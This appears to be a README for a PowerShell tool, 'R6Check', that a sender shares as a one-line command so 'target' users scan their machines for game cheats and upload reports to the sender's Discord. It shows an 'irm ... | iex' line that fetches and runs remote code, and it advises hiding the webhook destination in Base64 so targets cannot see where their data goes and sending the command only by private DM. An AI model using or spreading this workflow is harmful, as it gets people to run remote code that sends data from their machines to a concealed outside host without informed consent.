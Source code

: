 # Simple Obfuscated Webhook Solution

## How It Works

1. **You** encode your webhook using `encode-webhook.ps1`
2. **Get** an obfuscated hash (Base64 encoded)
3. **Send** the one-line command with the hash to the target user
4. **Script** automatically decodes and uses your webhook
5. **Reports** come to your Discord!



## 🔒 Security

**How Safe Is This?**

- ✅ **Casual users** won't see your webhook (looks like random text)
- ✅ **Easy to use** - No complicated setup
- ⚠️ **Advanced users** could decode Base64 (but most won't)
- ✅ **Better than plain text** in the command

**Best Practices:**

- ✅ Only send commands via **private DM** (not public channels)
- ✅ Rotate your webhook occasionally
- ✅ Use different webhooks for different groups
- ✅ Monitor your Discord for unexpected uploads



## 📝 Example Usage

**Your Side (One Time):**

```powershell
# 1. Run encoder
.\encode-webhook.ps1

# 2. Enter your webhook when prompted
https://discord.com/api/webhooks/987654321/xyz123abc

# 3. Copy the generated command
```

**Their Side (Each Time):**

```powershell
# They paste and run your command
irm https://raw.githubusercontent.com/dyvertigo/R6Check/main/R6Check.ps1 | iex; R6Check.ps1 -WebhookHash "ENCODED_HASH_HERE"

# Script downloads, runs, uploads to YOUR Discord
```



## 🎯 Complete Workflow

```
┌─────────────┐
│ You: Encode │  .\encode-webhook.ps1
│  Webhook    │  → Get hash: "aHR0cHM6..."
└──────┬──────┘
       │
       ▼
┌─────────────┐
│ You: Send   │  irm ... -WebhookHash "aHR0cHM6..."
│  Command    │  → Send to get access to target's logs
└──────┬──────┘
       │
       ▼
┌─────────────┐
│ Target: Runs│  Copy → Paste → Enter
│  Command    │  → Script downloads & runs
└──────┬──────┘
       │
       ▼
┌─────────────┐
│ Script:     │  Decodes hash → Gets webhook
│  Decode     │  → Runs scan → Uploads report
└──────┬──────┘
       │
       ▼
┌─────────────┐
│ You: Get    │  Report appears in YOUR Discord
│  Report     │  → Review for cheats
└─────────────┘
```



### **Update Webhook**

If you need to change your webhook:

1. Run `.\encode-webhook.ps1` again with new webhook
2. Get new hash
3. Send updated command to users

### **Verify Encoding**

To check what a hash decodes to:

```powershell
$hash = "aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTIzLzQ1Ng=="
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($hash))
```

